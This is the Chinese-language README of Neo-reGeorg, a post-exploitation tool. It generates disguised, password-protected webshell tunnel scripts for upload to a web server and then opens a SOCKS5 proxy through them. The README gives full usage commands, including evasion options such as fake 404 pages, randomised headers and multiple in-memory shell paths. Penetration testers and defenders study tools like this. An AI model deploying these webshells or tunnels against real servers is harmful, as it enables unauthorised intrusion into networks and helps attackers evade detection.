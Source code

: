 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 应对更多的网络环境场景



Version
----

2.0.0 - [版本修改日志](CHANGELOG.md)



Features
----

* 传输内容经过变形 base64 加密，伪装成 base64 编码
* 直接请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 自定义 HTTP 响应码
* 多 URL 随机请求
* 服务端 DNS 解析
* 兼容 python2 / python3
* 服务端环境的高兼容性
* 参考 [pivotnacci](https://github.com/blackarrowsec/pivotnacci) 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests



Basic Usage
--------------

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp

```

* **Step 2.**
使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等




Advanced Usage
--------------

1. 支持生成的服务端，默认直接请求响应指定的页面内容 (如伪装的 404 页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端 WEB，需要设置代理才能访问
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需 Authorization 认证和定制的 Header 或 Cookie
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. 需要分散请求，可上传到多个路径上，如内存马
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```


* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
	usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

	Generate neoreg webshell

	optional arguments:
	  -h, --help            show this help message and exit
	  -k KEY, --key KEY     Specify connection key.
	  -o DIR, --outdir DIR  Output directory.
	  -f FILE, --file FILE  Camouflage html page file
	  -c CODE, --httpcode CODE
							Specify HTTP response code. (default: 200)
	  --read-buff Bytes     Remote read buffer. (default: 513)

# 连接服务端
$ python neoreg.py -h
	usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
					 [-x LINE] [--local-dns] [--read-buff Bytes]
					 [--read-interval MS] [--max-threads N] [-v]

	Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
	(debug_all|debug_base64|debug_headers_key|debug_headers_values)

	optional arguments:
	  -h, --help            show this help message and exit
	  -u URI, --url URI     The url containing the tunnel script
	  -k KEY, --key KEY     Specify connection key
	  -l IP, --listen-on IP
							The default listening address.(default: 127.0.0.1)
	  -p PORT, --listen-port PORT
							The default listening port.(default: 1080)
	  -s, --skip            Skip usability testing
	  -H LINE, --header LINE
							Pass custom header LINE to server
	  -c LINE, --cookie LINE
							Custom init cookies
	  -x LINE, --proxy LINE
							proto://host[:port] Use proxy on given port
	  --local-dns           Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-buff Bytes     Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-interval MS    Read data interval in milliseconds.(default: 100)
	  --max-threads N       Proxy max threads.(default: 1000)
	  -v                    Increase verbosity level (use -vv or more for greater
							effect)
```


TODO
----

 * HTTP body 隐写

 * 传输 Target 隐写



License
----

GPL 3.0
